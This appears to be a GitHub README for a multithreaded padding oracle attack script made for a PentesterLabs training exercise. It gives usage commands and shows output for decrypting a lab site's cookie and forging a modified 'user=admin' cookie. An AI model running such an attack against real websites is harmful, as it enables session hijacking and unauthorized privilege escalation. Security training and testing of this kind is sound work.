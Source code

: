 # Fast-As-F*ck Padding Oracle Attack
This script was made for the [PentesterLabs Padding Oracle course](https://pentesterlab.com/exercises/padding_oracle) and served as my introduction into writting a script with python. This script  allows you to decode vulnerable data via a web based padding oracle attack, and also allows you to modify the cleartext content of the first block. This script also writes the decoded data to a file so there is some persistence for easier modification of the data. I have yet to test this anywhere else other than the Pentesterlabs course so the usage of this script may not be very high outside of its original purpose, but I have tried to add some variability to it. I only had about a months worth of experience with python when making this so the code is pretty sloppy, so if any refactoring or error fixes are welcome.

By making two modifications to my original padding oracle script, I was able to greatly increase the spead of the decoding process. The first thing I did was skip all the cleartext padding bytes, because if we decode from the end to the start, the first cleartext byte tells us how much padding it uses, and in turn, how many bytes we can skip. My second improvement was adding multithreading which surprisingly wasn't as difficult as I thought it would be. This improves time by dividing the guess work of the 256 characters, equally amongst all threads, where all threads can establish their own sessions with the website and flood it with requests all at the same time. 

Overall these two modifications made the script about 5x faster, going from about 10 minutes to decode 16 bytes, to less than 2 minutes using 6 threads.
<br></br>

## Usage

###### Decoding data
To will need to run the file with `python3`, and supply some data. Usage should be as follows:
```bash
python3 faf-padding-oracle.py -d "EncodedData" -u "url" -e "ErrorMessage" -c "CookieName" 
``` 

Here are some additional commands you can run:
```bash
optional arguments:
  -h, --help            show this help message and exit
  -r, --resume          Resume an attack from the /tmp/pad.json file
  -m, --modify          Modify some of the cleartext once everything has been decoded
  -d DATA, --data DATA  Cipher data to decrypt
  -u URL, --url URL     Victim website URL
  -b BLOCKSIZE, --blocksize BLOCKSIZE
                        The amount of bytes in each block (Default is 8)
  -e ERROR, --error ERROR
                        The error message that is displayed when there is incorrect padding (case sensitive)
  -c COOKIENAME, --cookiename COOKIENAME
                        The name of the cookie to submit with the data (Just the name)
  --encoding ENCODING   The encoding used by the victims site: [0] Base64 (default) [1] URL encoded
  -t THREADS, --threads THREADS
                        Number of threads to run during the attack (More threads == faster)
```

And here is an example of its usage:
```bash
python3 faf-padding-oracle.py -d "u7bvLewln6M9TnM411NAQqOlqvvLRQGd" -u "http://ptl-a3d6d67e-6bb65621.libcurl.so/" -e "Invalid padding" -c auth --encoding 0  -t 6
```

###### Modifying data
This script only allows you to modify the first block of plaintext data, as changing any other block would result in a different intermediary state to the one we have deciphered, and would require more web requests and a lot more complex code.

To modify the first block, all you need to do is run the script with the -m flag like so:
```bash
python3 faf-padding-oracle.py -m
```
Then you will be prompted to change the first block which you do by entering the exact amount of characters as the block size:
```bash
python3 faf-padding-oracle.py -m
[*] You can change 8 characters, in the first block.
[*] Current first block: user=ddm Please enter your changes: user=adm
[*] Your new string is: user=admin
[*] Here is your cookie: u7bvLewgn6M9TnM411NAQqOlqvvLRQGd
```
